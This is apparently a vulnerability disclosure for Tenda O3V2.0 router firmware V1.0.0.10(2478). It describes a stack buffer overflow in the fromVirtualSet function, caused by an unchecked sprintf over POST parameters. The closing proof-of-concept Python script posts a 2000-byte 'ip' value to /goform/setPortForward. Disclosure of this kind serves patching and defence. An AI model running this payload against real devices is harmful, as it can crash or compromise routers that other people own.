 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2832.html

## Affected version

O3V2.0 V1.0.0.10(2478)

## Vulnerability details

In the O3V2.0 V1.0.0.10(2478) firmware has a stack overflow vulnerability in the `fromVirtualSet` function. The `v16, v17, v18, v20` variable receives the `ip, localPort, publicPort, app` parameters from a POST request. However, since the user can control the input of these parameters, the statement `sprintf((char *)v21, "0;%s;%s;%s;%s;%s;%s", v18, v17, v16, (const char *)v30, "1", v20);` can cause a buffer overflow. The user-provided  `ip, localPort, publicPort, app` can exceed the capacity of the `v21` array, triggering this security vulnerability.

![image-20240714215518639](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714215518639.png)

![image-20240714215456841](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714215456841.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setPortForward"
payload = b"a"*2000

data = {"ip": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240714213455164](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213455164.png)

